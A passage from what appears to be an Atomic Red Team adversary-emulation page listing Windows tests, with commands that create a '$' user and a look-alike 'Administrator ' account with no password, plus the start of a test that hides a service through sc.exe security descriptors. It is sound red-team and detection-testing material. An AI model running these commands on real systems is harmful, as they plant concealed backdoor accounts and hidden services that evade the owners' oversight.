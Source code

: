 

#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
net user $ ATOMIC123! /add /active:yes
```

#### Cleanup Commands:
```cmd
net user $ /DELETE 2>&1
```





<br/>
<br/>

## Atomic Test #3 - Create an "Administrator " user (with a space on the end)
Creating a user with a username containing with a space on the end

**Supported Platforms:** Windows


**auto_generated_guid:** 5bb20389-39a5-4e99-9264-aeb92a55a85c






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
New-LocalUser -Name "Administrator " -NoPassword
```

#### Cleanup Commands:
```powershell
Remove-LocalUser -Name "Administrator " 2>&1 | out-null
```





<br/>
<br/>

## Atomic Test #4 - Create and Hide a Service with sc.exe
The following technique utilizes sc.exe and sdset to change the security descriptor of a service and "hide" it from Get-Service or sc query.

Upon successful execution, sc.exe creates a new service changes the security descriptor.

https://twitter.com/Alh4zr3d/status/1580925761996828672
https://learn.microsoft.com/en-us/windows/win32/secauthz/security-descriptor-string-format
